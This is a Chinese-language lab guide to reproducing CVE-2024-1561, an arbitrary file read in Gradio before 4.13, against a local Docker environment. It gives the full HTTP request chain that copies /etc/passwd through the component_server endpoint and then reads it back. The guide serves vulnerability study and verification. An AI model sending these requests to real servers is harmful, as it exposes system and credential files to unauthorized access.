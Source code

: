 # Gradio 任意文件读取漏洞（CVE-2024-1561）

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建Web界面。

在Gradio 4.13版本之前，`component_server`接口允许攻击者调用`Component`类的任意方法。攻击者可以利用`move_resource_to_block_cache`方法，将服务器上的任意文件复制到临时目录，并进一步读取其内容，从而实现任意文件读取。

参考链接：

- <https://github.com/gradio-app/gradio/pull/6884>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-1561>

## 环境启动

执行如下命令启动一个由Gradio 4.12.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

首先，访问`/config`接口，获取一个组件的`id`字段，例如`3`。

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![](1.png)

然后，利用`move_resource_to_block_cache`方法，将`/etc/passwd`文件写入临时目录，接口会返回临时文件路径。

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

![](2.png)

最后，通过`file`接口拼接返回的路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860
```

![](3.png)

如果操作成功，即可看到`/etc/passwd`的内容，证明漏洞存在。
